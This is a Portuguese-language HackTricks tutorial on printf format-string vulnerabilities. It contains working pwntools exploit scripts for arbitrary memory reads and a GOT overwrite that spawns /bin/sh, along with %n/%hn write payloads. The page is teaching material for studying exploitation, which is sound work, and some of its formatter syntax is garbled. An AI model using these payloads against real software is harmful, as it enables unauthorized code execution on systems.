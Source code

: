 # Format Strings

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Basic Information

Em C **`printf`** é uma função que pode ser usada para **imprimir** alguma string. O **primeiro parâmetro** que essa função espera é o **texto bruto com os formatadores**. Os **parâmetros seguintes** esperados são os **valores** para **substituir** os **formatadores** do texto bruto.

A vulnerabilidade aparece quando um **texto de atacante é usado como o primeiro argumento** para essa função. O atacante será capaz de criar uma **entrada especial abusando** das capacidades da **string de formato printf** para ler e **escrever qualquer dado em qualquer endereço (legível/escrevível)**. Sendo capaz assim de **executar código arbitrário**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Exemplos:**

* Exemplo vulnerável:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normal:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Com Argumentos Faltando:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Acessando Ponteiros**

O formato **`%<n>$x`**, onde `n` é um número, permite indicar ao printf para selecionar o n-ésimo parâmetro (da pilha). Então, se você quiser ler o 4º parâmetro da pilha usando printf, você poderia fazer:
```c
printf("%x %x %x %x")
```
e você leria do primeiro ao quarto parâmetro.

Ou você poderia fazer:
```c
printf("$4%x")
```
e ler diretamente o quarto.

Observe que o atacante controla o parâmetro `pr`**`intf`**, o que basicamente significa que** sua entrada estará na pilha quando `printf` for chamado, o que significa que ele poderia escrever endereços de memória específicos na pilha.

{% hint style="danger" %}
Um atacante controlando essa entrada, será capaz de **adicionar endereços arbitrários na pilha e fazer com que `printf` os acesse**. Na próxima seção, será explicado como usar esse comportamento.
{% endhint %}

## **Leitura Arbitrária**

É possível usar o formatador **`$n%s`** para fazer **`printf`** obter o **endereço** situado na **n posição**, seguindo-o e **imprimí-lo como se fosse uma string** (imprimir até que um 0x00 seja encontrado). Então, se o endereço base do binário for **`0x8048000`**, e sabemos que a entrada do usuário começa na 4ª posição na pilha, é possível imprimir o início do binário com:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Observe que você não pode colocar o endereço 0x8048000 no início da entrada porque a string será cortada em 0x00 no final desse endereço.
{% endhint %}

## **Escrita Arbitrária**

O formatador **`$<num>%n`** **escreve** o **número de bytes escritos** no **endereço indicado** no parâmetro \<num> na pilha. Se um atacante puder escrever quantos caracteres quiser com printf, ele será capaz de fazer **`$<num>%n`** escrever um número arbitrário em um endereço arbitrário.

Felizmente, para escrever o número 9999, não é necessário adicionar 9999 "A"s à entrada; para isso, é possível usar o formatador **`%.<num-write>%<num>$n`** para escrever o número **`<num-write>`** no **endereço apontado pela posição `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
No entanto, note que geralmente, para escrever um endereço como `0x08049724` (que é um número ENORME para escrever de uma vez), **usa-se `$hn`** em vez de `$n`. Isso permite **escrever apenas 2 Bytes**. Portanto, essa operação é feita duas vezes, uma para os 2B mais altos do endereço e outra vez para os mais baixos.

Portanto, essa vulnerabilidade permite **escrever qualquer coisa em qualquer endereço (escrita arbitrária).**

Neste exemplo, o objetivo será **sobrescrever** o **endereço** de uma **função** na tabela **GOT** que será chamada mais tarde. Embora isso possa abusar de outras técnicas de escrita arbitrária para exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Vamos **sobrescrever** uma **função** que **recebe** seus **argumentos** do **usuário** e **apontá-la** para a **função** **`system`**.\
Como mencionado, para escrever o endereço, geralmente são necessários 2 passos: Você **primeiro escreve 2Bytes** do endereço e depois os outros 2. Para isso, usa-se **`$hn`**.

* **HOB** é chamado para os 2 bytes mais altos do endereço
* **LOB** é chamado para os 2 bytes mais baixos do endereço

Então, por causa de como a string de formato funciona, você precisa **escrever primeiro o menor** de \[HOB, LOB] e depois o outro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modelo Pwntools

Você pode encontrar um modelo para preparar um exploit para esse tipo de vulnerabilidade em:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ou este exemplo básico de [**aqui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Outros Exemplos & Referências

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, sem relro, sem canário, nx, sem pie, uso básico de format strings para vazar a flag da pilha (sem necessidade de alterar o fluxo de execução)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, sem canário, nx, sem pie, format string para sobrescrever o endereço `fflush` com a função win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, sem canário, nx, sem pie, format string para escrever um endereço dentro de main em `.fini_array` (para que o fluxo retorne mais uma vez) e escrever o endereço para `system` na tabela GOT apontando para `strlen`. Quando o fluxo voltar para main, `strlen` é executado com a entrada do usuário e apontando para `system`, ele executará os comandos passados.

{% hint style="success" %}
Aprenda & pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda & pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
